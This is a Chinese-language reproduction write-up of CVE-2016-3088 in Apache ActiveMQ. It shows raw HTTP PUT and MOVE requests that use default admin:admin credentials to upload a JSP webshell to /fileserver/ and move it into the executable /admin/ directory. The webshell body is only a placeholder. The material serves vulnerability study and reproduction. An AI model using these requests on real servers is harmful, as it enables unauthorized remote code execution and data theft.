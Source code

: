 （CVE-2016-3088）ActiveMQ应用漏洞
=================================

一、漏洞简介
------------

ActiveMQ是一款流行的开源消息服务器。默认情况下，ActiveMQ服务是没有配置安全参数。恶意人员可以利用默认配置弱点发动远程命令执行攻击，获取服务器权限，从而导致数据泄露。

二、漏洞影响
------------

Apache ActiveMQ 5.x \~ 5.14.0

三、复现过程
------------

漏洞是需要登录之后才可以执行

漏洞利用就是/fileserver/有put上传权限，/admin/有执行权限，可找到绝对路径，使用move移动文件到/admin/

下面就是两步走，先是利用put上传文件到/fileserver/,然后移动到move到admin下面

所有返回为204就代表是成功，有个坑点：不要put同文件名的文件上去

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

ActiveMQ默认开启PUT方法，当fileserver存在时我们可以上传jspwebshell。

![](./resource/(CVE-2016-3088)ActiveMQ应用漏洞/media/rId24.png)

    PUT /fileserver/shell.jsp HTTP/1.1
    Host: 192.168.197.25:8161
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1
    Authorization: Basic YWRtaW46YWRtaW4=

    shell

利用 MOVE 方法将 Webshell 移入 admin/ 目录

![](./resource/(CVE-2016-3088)ActiveMQ应用漏洞/media/rId25.png)

    Request Raw:
    MOVE /fileserver/shell.jsp HTTP/1.1
    Destination:file:/data/apache-activemq-5.7.0/webapps/admin/shell.jsp
    Host: 192.168.197.25:8161
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1
    Authorization: Basic YWRtaW46YWRtaW4=
    Content-Length: 17
    Content-Length: 0

    shell

![](./resource/(CVE-2016-3088)ActiveMQ应用漏洞/media/rId26.png)
